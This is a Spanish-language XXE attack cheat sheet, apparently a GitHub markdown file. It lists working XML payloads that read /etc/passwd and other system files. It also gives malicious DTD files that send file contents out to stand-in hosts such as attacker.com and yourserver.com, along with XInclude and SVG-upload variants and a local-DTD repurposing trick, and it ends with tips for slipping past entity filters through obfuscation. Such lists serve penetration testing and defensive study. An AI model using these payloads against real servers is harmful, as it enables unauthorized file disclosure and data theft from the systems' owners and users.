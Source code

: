 ```yaml
---

### 💥 **XXE (XML External Entity) Attack Cheat Sheet** 💥

---
```

---

## **Tipos de Entidades en XML**

| Tipo                   | Descripción                                                                     |
| ---------------------- | ------------------------------------------------------------------------------- |
| Genéricas              | Representan cualquier tipo de información dentro del XML.                       |
| Externas (XXE)         | Referencian recursos externos, como archivos locales o URLs.                    |
| Predefinidas           | Entidades comunes usadas en XML (&lt;, &gt;, &amp;).                            |
| Entidades Paramétricas | Utilizan el símbolo `%` y se declaran en el **DTD (Document Type Definition)**. |
|                        |                                                                                 |

---

## **Ejemplo de Estructura XML**
```xml
<?xml version="1.0" encoding="UTF-8"?> <!-- Declaración XML -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "mi entidad">]> <!-- DTD (Document Type Definition) -->

<root>
    <name>fran</name>
    <tel>5454545as</tel>
    <email>fran@fran.com</email>
    <password>fran123</password>
</root>
```

---

## **Normal XXE (Local File Disclosure)**

### **Payloads:**
```xml
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "file:///etc/passwd"> ]>
<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
```

---

## **Out Of Band XXE (OOB)**
- Estas inyecciones son ciegas (blind), donde el servidor realiza solicitudes HTTP hacia un servidor externo.

### **Payloads:**
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://COLLABORATOR"> %xxe;] --> utilizando parametro

<!DOCTYPE foo [ <!ENTITY myFile SYSTEM "http://192.168.64.128/testXXE"> ]>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://192.168.64.128/malicious.dtd"> %xxe; ]>
```

---

## **Malicious DTD Files**

### **Malicious DTD 1 - Base64 Encoding:**
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%stack;
%exfil;
```

### **Malicious DTD 2 - Direct File Read:** 
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY exfil SYSTEM 'http://attacker.com/?file=%file;'>">
%stack;
```

### **Malicious DTD 3 - Error-Based XXE:**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; error SYSTEM 'file://idontexist/%file;'>">
```

---

## **XInclude Injection**

### **Payloads:**
**XInclude Local File:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="file:///etc/passwd" parse="text"/>
</foo>
```

**XInclude OOB:**
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include href="http://yourserver.com/?data=file:///etc/passwd" parse="text"/>
</foo>
```

---

## **XXE via Image File Upload**

### **Normal XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY file SYSTEM "file:///etc/hostname">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <text x="0" y="16" font-size="16">&file;</text>
</svg>
```

### **OOB XXE:**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % eval "<!ENTITY exfil SYSTEM 'https://yourserver.com/?data=%file;'>">
    %eval;
]>
<svg xmlns="http://www.w3.org/2000/svg" width="128px" height="128px">
    <image xlink:href="&exfil;" xmlns:xlink="http://www.w3.org/1999/xlink"/>
</svg>
```

---

## **XXE by Repurposing Local DTD**

### **Payload:**
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; exfil SYSTEM &#x27;file:///noexisto/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;exfil;
'>
%local_dtd;
]>
```

---

## **Consejos Útiles:**
- **Siempre invoca el nombre de la entidad dentro del XML para ejecutar el payload.**  
- **Si el ataque falla, intenta eliminar el `%` o probar variantes de codificación.**  
- **Si el servidor bloquea ciertas entidades, intenta ofuscar los caracteres.**  

---

